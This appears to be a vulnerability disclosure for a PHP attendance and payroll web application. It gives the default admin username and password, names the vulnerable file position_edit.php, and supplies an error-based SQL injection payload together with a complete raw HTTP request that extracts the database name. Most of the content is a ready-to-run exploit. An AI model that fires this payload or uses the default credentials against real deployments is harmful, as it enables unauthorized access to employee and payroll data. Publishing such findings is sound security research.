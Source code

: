 # Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\position_edit.php has SQL injection

Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&title=Writer&rate=50&edit=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159266903-689197c9-c027-4d8d-a340-5ae18262d41d.png)

```sql
POST /apsystem/admin/position_edit.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 92
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/position.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&title=Writer&rate=50&edit=
```
![image](https://user-images.githubusercontent.com/54017627/159267162-65cb3550-75fe-4a78-9920-61a73a40da69.png)

![image](https://user-images.githubusercontent.com/54017627/159267001-4d58f228-a768-4157-a543-dad512cca615.png)
